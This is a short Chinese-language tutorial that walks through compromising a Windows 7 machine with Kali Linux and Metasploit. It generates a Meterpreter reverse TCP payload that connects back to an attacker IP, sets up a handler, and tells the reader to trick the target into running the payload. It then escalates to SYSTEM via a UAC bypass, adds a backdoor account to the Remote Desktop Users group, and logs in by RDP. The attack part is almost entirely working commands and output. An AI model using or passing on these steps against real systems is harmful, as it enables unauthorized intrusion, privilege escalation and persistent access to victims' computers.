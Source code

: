 ```yaml
---
title: Kali Linux: Reverse TCP (Windows)
---
```


# Kali Linux: Reverse TCP (Windows)

目标系统：Windows 7 专业版，Service Pack 1，64位。

工具：Kali Linux

1. 使用`msfvenom`生成payload

   ```shell
   $ msfvenom -p windows/x64/meterpreter/reverse_tcp -b "\x00" LHOST=192.168.15.5 LPORT=4444 -i 5 -f exe -o ./some-fancy-name.exe
   ```

2. 打开`msfconsole`，运行以下命令

   ```shell
   msf > use exploit/multi/handler
   msf exploit(handler) > set LHOST 192.168.15.5
   msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
   msf exploit(handler) > set LPORT 4444
   msf exploit(handler) > exploit
   msf exploit(handler) > back
   ```

3. 想办法让目标下载运行你的payload。这时你会在`msfconsole`中得到提示建立连接，并得到session号（一般是从1号开始）。

4. 进入会话，得到目标系统的`meterpreter`。假设对方是用`Tony`用户打开的payload。

   ```shell
   msf > sessions -i 1
   meterpreter > getuid
   Server username: Tony-PC\Tony
   ```

5. 提权，获得系统权限。

   ```shell
   meterpreter > back
   msf > use exploit/windows/local/bypassuac
   msf exploit(bypassuac) > set SESSION 1
   msf exploit(bypassuac) > set LPORT 4445
   msf exploit(bypassuac) > exploit
   msf exploit(bypassuac) > back
   ```

6. 成功后，提示建立Session 2。进入Session 2，并进行提权。

   ```shell
   msf > sessions -i 2
   meterpreter > getsystem
   meterpreter > getuid
   Server username: NT AUTHORITY\SYSTEM
   ```

7. 获得远程桌面，首先创建账号，并将账号加入远程桌面用户组。

   ```shell
   meterpreter > use incognito
   meterpreter > add_user victim password
   meterpreter > shell
   C:\Windows\system32> net localgroup "Remote Desktop Users" victim /add
   C:\Windows\system32> exit
   ```

8. 再打开一个terminal，运行`rdektop`。

   ```shell
   $ rdesktop 192.168.15.7
   ```

9. 此时，看到目标上有两个用户，其中一个是victim，点击登录，输入密码`password`。此时如果对方正在使用，会得到一个提示框“victim”用户正在试图远程登录。如果对方点“确定”，对方会退出，你就会进入目标的桌面。
